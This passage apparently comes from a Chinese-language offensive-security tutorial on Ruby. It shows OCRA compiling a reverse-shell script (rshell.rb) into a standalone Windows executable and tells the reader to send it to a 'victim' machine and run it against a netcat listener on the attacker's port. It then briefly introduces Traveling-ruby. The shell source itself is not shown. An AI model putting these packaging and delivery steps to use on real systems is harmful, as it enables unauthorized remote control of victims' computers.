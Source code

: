 结果

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]

=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
===     6 files, 191333 bytes
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes) 
```

在同一目录中，你会找到一个名为`rshell.exe`的可执行文件。将其发送到没有安装Ruby的Windows受害机器上并运行。

```
rshell.exe 192.168.0.14 9911 
```

我们的攻击机器已经在9911端口监听

```
nc -lvp 9911 
```

![](packaging__ocra1.png)

### Traveling-ruby

来自官方网站^([1](#fn_1)) "*Traveling Ruby是一个项目，提供自包含的“便携”Ruby二进制文件：可以在任何Linux发行版和任何OS X机器上运行的Ruby二进制文件。它还支持Windows（有一些注意事项）。这使得Ruby应用程序开发人员可以将这些二进制文件与他们的Ruby应用程序捆绑在一起，这样他们可以向最终用户分发一个单一的软件包，而无需让最终用户首先安装Ruby或gems。*"

注意：以下脚本摘自官方文档。
